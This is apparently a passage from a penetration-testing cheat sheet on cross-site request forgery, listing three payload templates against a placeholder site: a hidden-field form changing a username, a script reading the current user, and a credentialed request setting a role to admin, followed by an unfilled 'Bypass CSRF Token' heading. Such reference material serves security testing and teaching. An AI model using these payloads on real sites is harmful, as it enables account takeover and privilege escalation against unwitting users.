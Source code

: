 1. HTML POST Method

```
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

1. JSON GET Method

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

1. JSON POST Method

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass CSRF Token

![](<../../.gitbook/assets/image (23).png>)
